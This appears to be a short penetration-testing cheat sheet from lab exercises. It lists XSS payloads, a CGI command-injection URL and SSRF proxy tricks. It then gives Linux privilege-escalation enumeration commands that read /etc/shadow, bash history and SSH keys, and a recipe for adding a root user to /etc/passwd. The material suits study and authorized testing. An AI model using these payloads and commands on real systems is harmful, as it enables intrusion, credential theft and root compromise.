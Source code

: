 ### Stored XSS
- XSS example in comment: `<script>alert("Test")</script>`
- malicious image: `<img src='LINK' onmouseover="alert('xss')">`
- malicious URL: `<https://somewebsite.com/titlepage?id=> <script> evilcode() </script>`
- test with: `<h1></h1>` and `<b></b>`
- change content on webpage: `<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`

### DOM based XSS
- try `<iframe src="javascript:alert(`xss`)">` in search field

### Persistent (Server-Side XSS)
- using headers: `True-Client-IP`: `<iframe src="javascript:alert(`xss`)">`

## Command Injection
- Via CGI (Common Gateway Interface) scripts: `192.168.1.200/cgi-bin/systeminfo.sh?&whoami`

## Server Site Request Forgery
- if this link works: `http://10.10.0.150/?proxy=http://list.hohoho:8080/search.php?name=test`
- you can change the proxy to redirect to localhost with `localtest.me`
- `http://10.10.0.150/?proxy=http://list.hohoho.localtest.me`

## PrivEsc
1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions

### PrivEsc Enumeration
- `uname -a`
- `cat ~/.bash_history`
- find important file or process: `cat ~/.bash_profile`
- find important file or process: `cat ~/.bashrc`
- `sudo -V` (< 1.8.28 are vulnerable to CVE-2019-14287)'
- check what we can sudo: `sudo -l`
- check files in /etc for passwords and other information (/etc/passwd, /etc/shadow, /etc/hosts)
- `cat /etc/crontab`

- `whoami` and `id`
- show distrubution version:`lsb_release -a`
- show current shell: `echo $0`
- find SSH keys: `find / -name id_rsa 2> /dev/null`
- show host MOTD: `cat /etc/update-motd.d/00-header`

### Edit /etc/passwd to get root
- generate password hash for new user: `openssl passwd -1 -salt [salt] [password]`
- add the following: `[username]:[hash]:0:0:root:/root:/bin/bash`
